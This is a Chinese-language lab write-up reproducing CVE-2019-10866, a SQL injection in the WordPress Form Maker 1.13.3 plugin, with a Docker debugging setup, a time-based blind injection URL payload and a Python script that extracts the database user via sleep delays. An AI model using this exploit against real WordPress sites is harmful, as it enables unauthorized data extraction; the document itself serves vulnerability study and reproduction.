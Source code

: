 （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入
===============================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

    FROM medicean/vulapps:base_lamp_php7

    RUN pecl install xdebug

    COPY php.ini /etc/php/7.0/apache2/
    COPY php.ini /etc/php/7.0/cli/

docker-compose文件:

    version: '3'
    services:
      lamp-php7:
        build: .
        ports:
          - "80:80"
        volumes:
          - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
          - "/Users/mengchen/Security/Code Audit/tmp:/tmp"

php.ini中xdebug的配置

    [xdebug]
    zend_extension="/usr/lib/php/20151012/xdebug.so"
    xdebug.remote_enable=1
    xdebug.remote_host=10.254.254.254
    xdebug.remote_port=9000
    xdebug.remote_connect_back=0
    xdebug.profiler_enable=0
    xdebug.idekey=PHPSTORM
    xdebug.remote_log="/tmp/xdebug.log"

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

    sudo ifconfig lo0 alias 10.254.254.254

PHPStorm也要配置好相对路径:

![](./.resource/(CVE-2019-10866)WordPressPlugin-FormMaker1.13.3sql注入/media/rId25.png)

插件下载地址:

    https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

    http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b

Python脚本，修改自exploit-db

    #coding:utf-8
    import requests
    import time

    vul_url = "http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc="
    S = requests.Session()
    S.headers.update({"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3", "Referer": "http://127.0.0.1/wp-login.php?loggedout=true", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"})
    length = 0
    TIME = 3
    username = "admin"
    password = "admin"

    def login(username, password):
        data = {
            "log": "admin", 
            "pwd": "admin", 
            "wp-submit": "\xe7\x99\xbb\xe5\xbd\x95", 
            "redirect_to": "http://127.0.0.1/wp-admin/", 
            "testcookie": "1"
            }
        r = S.post('http://127.0.0.1/wp-login.php', data=data, cookies = {"wordpress_test_cookie": "WP+Cookie+check"})


    def attack():
        flag = True
        data = ""
        length = 1
        while flag:
            flag = False
            tmp_ascii = 0
            for ascii in range(32, 127):
                tmp_ascii = ascii
                start_time = time.time()
                payload = "{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b".format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)
                #print(payload)
                r = S.get(payload)
                tmp = time.time() - start_time
                if tmp >= TIME:
                    flag = True
                    break
            if flag:
                data += chr(tmp_ascii)
                length += 1
            print(data)
    login(username, password)
    attack()

image

